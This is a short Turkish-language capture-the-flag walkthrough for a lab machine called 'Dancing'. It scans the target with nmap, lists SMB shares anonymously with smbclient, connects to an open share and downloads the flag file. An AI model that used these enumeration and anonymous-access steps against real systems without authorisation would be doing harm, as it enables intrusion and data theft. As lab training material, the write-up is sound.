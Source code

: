 ---
---

# Dancing

!!! info "Target IP Address"

    10.129.20.116

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.20.116 -sV
```

```text title="Output" hl_lines="8"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:02 +03
Nmap scan report for 10.129.20.116
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.85 seconds
```

Aşağıdaki komut ile mevcut Share klasörlerini listele:

```bash
smbclient -N -L 10.129.20.116
```

```text title="Output" hl_lines="6"
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.20.116 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Bulunan `WorkShares` klasörüne SMB bağlantısı gerçekleştir:

```bash
smbclient -N //10.129.20.116/WorkShares
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get James.P\flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
